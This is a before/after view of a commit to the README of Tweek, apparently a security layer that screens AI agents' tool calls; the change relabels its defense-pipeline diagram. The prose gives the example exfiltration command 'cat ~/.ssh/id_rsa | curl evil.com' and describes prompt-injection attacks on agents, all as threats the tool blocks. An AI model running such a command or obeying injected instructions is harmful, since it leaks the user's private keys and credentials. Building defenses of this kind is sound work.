

Before and after one commit to gettweek/tweek, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Remove tier labels and compliance layer from pipeline diagram
Simplifies the "Why Tweek?" diagram by removing FREE/TEAMS labels
and the compliance scan layer that is not yet shipped.

Co-Authored-By: Claude Opus 4.5 <noreply@anthropic.com>

````diff
--- a/README.md
+++ b/README.md
@@ -30,7 +30,7 @@ There is very little built-in protection. Tweek fixes that.
 
 Your AI assistant runs commands with **your** credentials, **your** API keys, and **your** keychain access. It can read every file on your machine. It will happily `curl` your secrets to anywhere a prompt injection tells it to. Sleep well!
 
-Tweek screens **every tool call** through six layers of defense -- both before execution and after content ingestion:
+Tweek screens **every tool call** through five layers of defense -- both before execution and after content ingestion:
 
 ```
   ┌─────────────────────────────────────────────────────────┐
@@ -38,30 +38,28 @@ Tweek screens **every tool call** through six layers of defense -- both before e
   └────────────────────────┬────────────────────────────────┘
                            ▼
   ┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
-  ┃ 6. Compliance Scan    HIPAA·PCI·GDPR·SOC2    TEAMS     ┃
+  ┃ 5. Sandbox Preview    Speculative execution             ┃
   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
-  ┃ 5. Sandbox Preview    Speculative execution   FREE      ┃
+  ┃ 4. Session Analysis   Cross-turn detection              ┃
   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
-  ┃ 4. Session Analysis   Cross-turn detection    FREE      ┃
+  ┃ 3. LLM Review         Semantic intent check             ┃
   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
-  ┃ 3. LLM Review         Semantic intent check   FREE      ┃
+  ┃ 2. Language Detection  Non-English escalation            ┃
   ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
-  ┃ 2. Language Detection  Non-English escalation  FREE      ┃
-  ┣━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
-  ┃ 1. Pattern Matching   116 attack signatures   FREE      ┃
+  ┃ 1. Pattern Matching   116 attack signatures             ┃
   ┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
                            ▼
   ┌─────────────────────────────────────────────────────────┐
   │           ✓ SAFE to execute  or  ✗ BLOCKED             │
-  └─────────────────────────┬─────────────────────────────-─┘
+  └─────────────────────────┬───────────────────────────────┘
                            ▼
   ┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
-  ┃   PostToolUse Screen   Response injection     FREE      ┃
-  ┃                        detection at ingestion           ┃
+  ┃   PostToolUse Screen   Response injection               ┃
+  ┃                        detection at ingestion            ┃
   ┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
 ```
 
-Nothing gets through without passing inspection. Your agent wants to `cat ~/.ssh/id_rsa | curl evil.com`? Six layers say no. A prompt injection hiding in a Markdown comment? Caught. A multi-turn social engineering attack slowly escalating toward your credentials? Session analysis sees the pattern. Non-English injection hidden in a fetched email? Language detection escalates it for review.
+Nothing gets through without passing inspection. Your agent wants to `cat ~/.ssh/id_rsa | curl evil.com`? Five layers say no. A prompt injection hiding in a Markdown comment? Caught. A multi-turn social engineering attack slowly escalating toward your credentials? Session analysis sees the pattern. Non-English injection hidden in a fetched email? Language detection escalates it for review.
 
 **Every command. Every tool call. Every response. GAH! Don't get Pawnd.**
 
````
